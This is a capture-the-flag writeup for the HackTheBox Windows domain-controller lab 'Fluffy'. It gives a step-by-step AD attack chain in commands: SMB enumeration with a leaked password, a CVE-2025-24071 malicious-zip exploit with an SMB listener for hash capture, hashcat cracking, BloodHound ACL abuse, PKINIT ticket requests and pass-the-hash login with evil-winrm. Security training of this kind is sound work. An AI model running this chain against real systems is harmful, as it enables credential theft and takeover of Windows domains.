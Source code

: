 # HTB - Fluffy 🐇

Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


```
smbmap -H 10.129.186.239 -u j.fleischman -p J0elTHEM4n1990!

smbclient //10.129.186.239/IT -U 'j.fleischman'

mget *
```

On SMB, we see that we have write permission for the IT share, and we find a PDF with vulnerabilities.

Now that we have the list of vulnerabilities, let's move on to exploits.


To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 ```exploit.py -i 10.10.16.40 -s shared -f evil```
 3. Start listener for hash capture:
   ```sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support```
   3. Upload payload to target IT share.
      ``put evil.zip``

4. You should se username + hash on listner.

5. Crack the with rockyou.txt: 
  ``` hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt``

6. Now we have a new username and password. You might try evil-winrm, but the user does not have permission. So, let's enumerate more. Create a BloodHound file and upload to bloodhound review.
      ```
        sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP> ```


Observations

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

## Add User to Service Accounts

```bash
net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"


Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

sudo rdate -n <TARGET_IP>


Generate a TGT using faketime:

faketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache


Set the Kerberos ticket environment variable:

export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

Retrieve NT Hash
faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>

Access Service Account
evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>



